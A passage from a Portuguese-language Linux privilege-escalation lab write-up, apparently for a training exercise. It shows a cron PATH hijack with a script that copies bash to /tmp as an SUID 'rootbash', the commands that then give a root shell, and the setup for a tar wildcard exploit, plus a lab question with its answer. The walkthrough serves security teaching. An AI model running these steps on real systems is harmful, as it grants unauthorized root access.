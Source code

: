 Observa-se que a variável PATH começa com ***/home/user*** que é o diretório inicial do nosso usuário.

Crie um arquivo chamado overwrite.sh no diretório do usuário com o seguinte conteúdo:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Basicamente, o script acima vai copir o binário do ***bash*** para ***/tmp*** com o nome ***rootbash***. Em seguida, adiciona-se permissão SUID, com o objetivo de executar com elevação de privilégios.

Para o arquivo overwrite.sh seja executado pelo crontab, é preciso adicionar permissão de execução a ele:

```shell
chmod +x overwrite.sh
```

Agora, basta aguardar a execução do cron job (não deve demorar mais de um minuto). Execute o comando /tmp/rootbash com -p para obter um shell rodando com privilégios de root:

```shell
/tmp/rootbash -p
```
Um shell de superusuário será aberto. Por que isso ocorreu? Pelo fato da variável de ambiente que estava setada para procurar executáveis no diretório home do usuário, ou seja, um diretório que um usuário limitado tem permissão. 

### Questões:

- a. ***What is the value of the PATH variable in /etc/crontab?*** */home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin*

## 10 - Cron Jobs - Wildcards 

Quando se visualizou o conteúdo do arquivo ***/etc/crontab***, um outro script estava agendado:
```shell
 * * * * * root /usr/local/bin/compress.sh
```
Visualizando conteúdo desse script:

```shell
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Esse caractere corginga ou wildcard "*", dentro do diretório home (o qual se tem permissão), permite exploração para elevação de privilégios.

Como está sendo utilizado o comando tar, pode-se consultar o GTFOBins por [tar](https://gtfobins.github.io/gtfobins/tar/).
